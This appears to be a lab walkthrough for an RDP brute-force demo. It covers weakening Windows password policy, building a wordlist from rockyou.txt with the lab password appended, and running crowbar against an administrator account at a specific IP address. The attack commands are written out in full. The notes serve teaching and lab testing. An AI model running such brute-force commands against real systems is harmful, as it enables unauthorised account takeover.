 > **Important:** Do not target assets you do not own or do not have explicit permission to test. This is educational / lab work only.

---

**Setup (Windows Server)**

- Create a fake file `passwords.txt` under `Documents`.
- Example password used in lab: `Winter2024!` (note: this is intentionally weak for the demo).
- Change Windows password to `Winter2024!`:

  - Start → Username → Change account settings → Sign-in options → Password → Change.
  - If password policy prevents the change, edit Local Group Policy:

    - `Edit group policy` → Windows Settings → Security Settings → Account Policies → Password Policy
    - Set **Minimum password length** to `5` and **Password must meet complexity requirements** → `Disabled`
    - Apply, then change password.

**Recap:** created file `passwords.txt` under `Documents` and changed account password to `Winter2024!`.

---

### Phase 1 — RDP Brute Force (Attacker: Kali / C Linux)

- Log into Kali/C Linux as `c` (password `CI` in demo).
- Use built-in wordlists: `/usr/share/wordlists` (e.g., `rockyou.txt`).

Commands shown in the demo:

```bash
# Decompress rockyou if zipped
cd /usr/share/wordlists
sudo gunzip rockyou.txt.gz

# Inspect / extract a small list (demo used first 50)
head -50 rockyou.txt > ~/rockyou-first50.txt

# Create a custom wordlist and add the lab password at the bottom
mkdir -p ~/wordlists
head -50 rockyou.txt > ~/wordlists/defwordlist.txt
echo "Winter2024!" >> ~/wordlists/defwordlist.txt
```

- Install and use `crowbar` for RDP brute force (demo steps):

```bash
# Update repos and install dependencies
sudo apt-get update
sudo apt-get upgrade -y
sudo apt-get install -y gcc g++ # (demo used these to satisfy dependencies)

# Install crowbar (if available in repo)
sudo apt-get install -y crowbar

# Prepare target file (demo target IP example)
echo "149.248.59.41" > ~/target.txt
# Run crowbar: -b (service), -U user, -c wordlist, -s target
crowbar -b rdp -U administrator -c ~/wordlists/defwordlist.txt -s 149.248.59.41/32
```
